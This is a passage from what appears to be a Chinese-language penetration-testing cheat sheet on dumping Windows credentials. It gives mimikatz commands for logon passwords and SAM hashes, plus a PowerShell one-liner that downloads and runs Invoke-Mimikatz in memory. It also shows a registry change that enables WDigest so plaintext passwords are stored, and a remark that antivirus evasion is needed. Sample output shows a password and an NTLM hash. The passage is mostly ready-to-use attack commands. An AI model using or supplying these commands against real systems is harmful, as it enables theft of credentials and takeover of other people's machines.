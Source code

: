                * Password : 1234!qw
              kerberos :
               * Username : dmadmin
               * Domain   : xx.com
               * Password : (null)
              ssp :
              credman :
      ```

      导出当前 内存 hash，需要免杀过av等

      ```
      mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
      powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
      ```

      Windows Server 2012,部分Windows Server 2008默认无法使用mimikatz导出明文口令 解决方法：启用Wdigest Auth cmd:

      ```
      reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
      ```

      powershell:

      ```
      Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1  
      ```

      重启或者用户再次登录，能够导出明文口令
      [3gstudent自动Dump-Clear-Text-Password-after-KB2871997-installed](https://github.com/3gstudent/Dump-Clear-Password-after-KB2871997-installed)

  30. ##### SAM-hash

      管理权限：

      ```
      reg save HKLM\SYSTEM Sys.hiv
      reg save HKLM\SAM Sam.hiv
      ```

      mimikatz:

      ```
      lsadump::sam /sam:Sam.hiv /system:Sys.hiv
      mimikatz # lsadump::sam /sam:SamBkup.hiv /system:SystemBkup.hiv
      Domain : MINI
      SysKey : 58699cc69ada69e9d859731bec45824d
      Local SID : S-1-5-21-687613702-1072107351-1410383080
      
      SAMKey : 339c56f87f46195ddd5158c018a973de
      
      RID  : 000001f4 (500)
      User : Administrator
        Hash NTLM: 22388b7da6d4e33b9ab1cdf631daff8c
      